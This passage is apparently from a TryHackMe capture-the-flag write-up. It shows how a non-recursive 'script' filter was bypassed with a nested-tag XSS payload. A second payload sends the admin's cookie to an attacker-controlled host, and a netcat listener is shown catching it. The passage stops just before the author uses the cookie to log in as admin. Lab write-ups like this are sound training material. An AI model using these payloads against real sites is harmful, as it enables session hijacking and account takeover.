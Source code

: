 ```
```

### Update Post Request
Payload 
```html
&#x3C;script&#x3E; alert('xss') &#x3C;/script&#x3E;
```
![9](/assets/images/thm/misguided_ghosts/9.png)
We get what we are looking for, execpt the script is completely absent on the result.

### Hypothesis
```py
if '<' or '>' in title or subtitle:
    return 'Late for Bounty'
if 'script' in title or subtitle:
    remove script from title and subtitle
    return tile,subtitle
```
If my hypothesis is correct and if the checks for the script is done only once and not recursively, this check can be easily bypassed using **scrscriptipt**. When the loop is run once, it removes the middle script leaving us with another script.

## Making a new post request
### Updated Payload
```html
&#x3C;scrscriptipt&#x3E; alert('xss') &#x3C;/scscriptript&#x3E;
```
![10](/assets/images/thm/misguided_ghosts/10.png)
And this time we get a alert box saying XSS. Now that we can run javascript code on the admin's browser, we can get the admin's cookie.

### Request Payload
```html
&#x3C;scrscriptipt&#x3E; document.location='http://10.6.31.213:9001/XSS/grabber.php?c='+document.cookie  &#x3C;/scrscriptipt&#x3E;
```
### Listening on our box
```console
local@local:~/Documents/tryhackme/misguided_ghosts$ nc -nvklp 9001
Listening on 0.0.0.0 9001
```

And After some time,we get a response back on the netcat listener with the admin cookie.

```console
local@local:~/Documents/tryhackme/misguided_ghosts$ nc -nvklp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.3.140 57934
GET /XSS/grabber.php?c=login=<redacted-admin-cookie> HTTP/1.1
Host: 10.6.31.213:9001
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
Now that we have got an admin cookie, let update the cookies from the browser console and  login as admin.
### On browser console